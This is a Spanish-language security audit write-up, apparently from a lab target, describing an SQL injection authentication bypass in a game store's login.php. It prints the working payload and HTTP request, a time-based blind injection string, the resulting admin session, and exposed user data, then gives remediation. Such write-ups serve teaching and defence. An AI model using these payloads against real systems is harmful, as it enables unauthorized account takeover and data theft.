


# 💉 F-012 — Inyección SQL en login.php: bypass de autenticación

   

> [!IMPORTANT]
> El campo `username` del login se concatena directamente en la consulta SQL. Una sola petición HTTP, sin conocer ninguna credencial real, basta para obtener una sesión de **administrador** completa.

## 📖 Contexto

PixelForge es una tienda de videojuegos digitales (puerto 10000 de BigShop). El formulario de login (`POST /login.php`) es el punto de entrada obvio a auditar primero. Probando el clásico `'` en el campo `username`, el servidor devuelve un error de base de datos en texto plano — la primera señal de que algo va mal.

## 🔬 Explotación paso a paso

**1. Confirmar la inyección con una comilla simple.** El servidor refleja el error de MariaDB directamente en la respuesta:

```
Database error: You have an error in your SQL syntax; check the manual that
corresponds to your MariaDB server version for the right syntax to use near
'9dd4e461268c8034f5c8564e155c67a6'' at line 2
```

Este único mensaje confirma dos fallos a la vez:
- La consulta **no usa prepared statements** — concatenación directa y clásica.
- El hash reflejado (`9dd4e461268c8034f5c8564e155c67a6`) es `md5("x")`, la contraseña de prueba enviada — las contraseñas se comparan contra **MD5 sin salt**, un algoritmo roto para este uso.

**2. Construir el bypass de autenticación:**

```http
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=' OR '1'='1' -- -&password=x
```

El comentario SQL (`-- -`) anula la comprobación de la contraseña, y `'1'='1'` hace que la consulta devuelva la primera fila de la tabla `users` — que resulta ser la cuenta `administrator` (`admin@pixelforge.gg`).

**3. Confirmar la respuesta — sesión de administrador, sin ninguna credencial real:**

```
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=cn3b5sl6uqk7id7olhmssdo0j5; path=/
Location: /dashboard.php
```



**4. Reproducir en el navegador** (no solo con `curl`/Burp) para confirmar el acceso real al panel:



### 🧐 Detalle interesante: dos vías de login, solo una vulnerable

`login.php` acepta el login de dos formas:

- **Formulario clásico** (`Content-Type: application/x-www-form-urlencoded`) — la vía vulnerable, confirmada arriba.
- **JSON** (`Content-Type: application/json`), que es lo que realmente manda el `fetch()` del JavaScript de la página en el flujo normal. Se repitió la batería completa (comilla suelta, bypass por comentario con contraseña incorrecta, inyección ciega por tiempo con `' AND SLEEP(5)-- -`) específicamente contra esta vía — **sin éxito en ningún caso**.

Esto indica que el login se implementó dos veces (probablemente una migración a un flujo AJAX/JSON más moderno) y el código antiguo del formulario, vulnerable, se quedó activo en el servidor sin que el frontend lo use ya. **No se detecta observando solo el tráfico normal de la aplicación** — hace falta construir la petición a mano (Burp Repeater) para encontrarlo. Lección: un "no vulnerable" solo vale para la forma de petición que realmente probaste.

### Datos expuestos en el panel alcanzado

| Usuario | Email | Rol | Créditos |
|---|---|---|---|
| administrator | admin@pixelforge.gg | admin | 9999 |
| j.ramirez | jramirez@pixelforge.gg | staff | 120 |
| shadowblade | shadow@mail.com | customer | 340 |
| mira.kondo | mira.k@mail.jp | customer | 75 |
| leet_hunter | hunter@mail.com | customer | 510 |
| casual_gabe | gabe@mail.com | customer | 20 |
| nova_strike | nova@mail.io | customer | 210 |

Y un cupón marcado explícitamente como interno: **`STAFF50`** — *"Internal staff only — do not share"* (-50%), visible para cualquiera que llegue a este panel sin autorización.

## 💥 Impacto

> [!CAUTION]
> Toma completa de la cuenta administradora **sin conocer ninguna credencial real**, en una sola petición HTTP, sin fuerza bruta ni phishing. Esta misma sesión permite además encadenar directamente con la subida de avatar sin restricciones para obtener ejecución remota de comandos en el servidor — ver la cadena completa en [F-015](F-015-cadena-completa-invitado-rce.md).

## 🛡️ Remediación

- Sustituir la concatenación de `username`/`password` por **prepared statements / consultas parametrizadas** (`mysqli`/`PDO` con parámetros `bind`) en ambas vías de login, no solo en la JSON.
- Sustituir el hash **MD5 sin salt** por `bcrypt` o `argon2id`, con salt único por usuario.
- Desactivar `display_errors` en producción — el mensaje de error de MariaDB filtrado fue la pista inicial que confirmó la inyección.
- Revisar qué datos expone el panel de administrador (cupones internos, listado completo de usuarios) incluso para un atacante que no debería llegar nunca a esa pantalla.

## 🔗 Hallazgos relacionados

- [F-013 — Subida de fichero sin restricciones → RCE](F-013-subida-fichero-rce.md): esta misma sesión de administrador permite subir un webshell y ejecutar comandos en el servidor.
- [F-015 — Cadena completa: invitado anónimo → RCE](F-015-cadena-completa-invitado-rce.md): documenta esta vía (Ruta A) junto a la vía alternativa por autoregistro (Ruta B).

---
⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
